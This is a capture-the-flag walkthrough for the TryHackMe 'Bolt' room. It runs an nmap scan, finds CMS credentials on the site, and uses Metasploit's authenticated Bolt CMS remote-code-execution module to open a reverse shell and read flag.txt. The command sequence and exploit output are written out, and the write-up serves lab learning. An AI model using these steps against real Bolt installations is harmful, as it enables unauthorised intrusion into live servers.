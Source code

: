 # Bolt

<a href="https://tryhackme.com/room/bolt">Click here to see the room!</a>

First of all, connect to the VPN and deploy the machine.

The machine IP is 10.10.189.109 for me. (It will be different for you)

Run Nmap to search open ports
```
#nmap -sV -sC -A 10.10.189.109
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-23 03:08 BST
Nmap scan report for 10.10.189.109
Host is up (0.071s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

8000/tcp open  http    (PHP 7.2.32-1)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Date: Sun, 23 Aug 2020 01:08:11 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Sun, 23 Aug 2020 01:08:11 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 155466
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Sun, 23 Aug 2020 01:08:10 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Sun, 23 Aug 2020 01:08:10 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: d172de
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
|_http-generator: Bolt
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Bolt | A hero is unleashed

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   72.13 ms 10.8.0.1
2   72.59 ms 10.10.189.109

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.21 seconds
```
3 ports are open.
#1 	What port number has a web server with a CMS running? The answer is there!

Let's check ```10.10.189.109:8000```. Yes it's working! Check the pages. You will find the answer of 
#2 What is the username we can find in the CMS? and 
#3 What is the password we can find for the username?

#4 	What version of the CMS is installed on the server? (Ex: Name 1.1.1)
Just google it how to reach the login page. On the https://docs.bolt.cm/3.7/manual/login you will find ```http://<IP:PORT>/bolt/login```. Enter the username and password that you find on the web page. Now you are on Dashboard page. At the left-bottom corner you can see the answer.

#5 	There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?
Go to https://www.exploit-db.com/ and search for "Bolt cms". You will find the EDB-ID of Authenticated Remote Code Execution vulnerability.

#6 	Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)
Run metasploit!

```
#msfconsole

msf6 > search bolt cms
#   Name                                              Disclosure Date  Rank       Check  Description
28  exploit/unix/webapp/bolt_authenticated_rce        2020-05-07       excellent  Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
```
Can you see the full path for this exploit?

#7 	Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit
You know the username and password. LHOST is your IP that you can find it on https://tryhackme.com/access or ```ifconfig``` on terminal. Keep LPORT 4444. RHOST is the target machine IP. You can see below how to set those parameters.
Make sure everything is correct before running ```exploit```/```run```
```
msf6 > use 28
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set lhost 10.8.33.214
lhost => 10.8.33.214
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set rhosts 10.10.189.109
rhosts => 10.10.189.109
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set username b...
username => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set password b...........
password => boltadmin123
```
#8 	Look for flag.txt inside the machine.

```
msf6 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 10.8.33.214:1234 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "biczvo".
[*] Found 2 potential token(s) for creating .php files.
[+] Used token 886cf3be6cb404b04c371dd3b6 to create jjgvqcgyaxm.php.
[*] Attempting to execute the payload via "/files/jjgvqcgyaxm.php?biczvo=`payload`"
[*] Command shell session 1 opened (10.8.33.214:1234 -> 10.10.189.109:60300) at 2020-08-23 03:41:42 +0100
[!] No response, may have executed a blocking payload!
[+] Deleted file jjgvqcgyaxm.php.
[+] Reverted user profile back to original state.

$ls
index.html
$pwd
/home/bolt/public/files
$cd ..
$ls
bolt-public
extensions
files
index.php
theme
thumbs
$cd ..
$ls
app
composer.json
composer.lock
cron
extensions
index.php
public
README.md
reboot.sh
src
vendor
$cd ..
$ls
bolt
composer-setup.php
flag.txt
cat flag.txt
THM{w.._......_....._...._....7?}
```

Easy machine!

Many thanks to <a href="https://tryhackme.com/p/0x9747">0x9747</a> room creator and <a href="https://tryhackme.com">TryHackMe.com</a> for this free room.

If you think something is wrong, send a mail to hsnckkgl@gmail.com

Best wishes to all the CTF Players,

hsnckkgl
